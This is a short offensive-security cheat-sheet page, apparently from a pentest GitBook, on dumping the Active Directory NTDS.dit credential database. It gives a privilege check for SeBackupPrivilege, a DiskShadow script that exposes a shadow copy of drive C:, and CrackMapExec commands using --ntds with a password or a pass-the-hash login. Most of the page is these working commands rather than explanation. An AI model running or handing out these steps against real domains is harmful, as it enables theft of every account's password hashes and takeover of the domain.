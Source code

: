 # Dump NTDS.dit

Source

{% embed url="https://wiki.porchetta.industries/smb-protocol/obtaining-credentials/dump-ntds.dit" %}

## Verify Backup Privileges

Running <mark style="color:green;">**`whoami /priv`**</mark> should show us if we have the right privileges to make a backup of the NTDS.dit and SYSTEM files. We are looking for <mark style="color:green;">**`SeBackupPrivilege`**</mark>

## DiskShadow

Create a file called vss.dsh with the code below in it. Then run `unix2dos vss.dsh` to convert a readable windows file.

```
set context persistent nowriters
set metadata c:\programdata\df.cab
set verbose on
add volume c: alias df
create
expose %df% z:
```



## CrackMapExec

```
#~ cme smb 192.168.1.100 -u UserNAme -p 'PASSWORDHERE' --ntds
```

```
#~ cme smb 192.168.1.100 -u UserNAme -p 'PASSWORDHERE' --ntds vss
```

```
#~ cme smb 192.168.1.100 -u UserNAme -H 'HASH HERE' --ntds vss
```

<figure><img src="../.gitbook/assets/image (38).png" alt=""><figcaption></figcaption></figure>
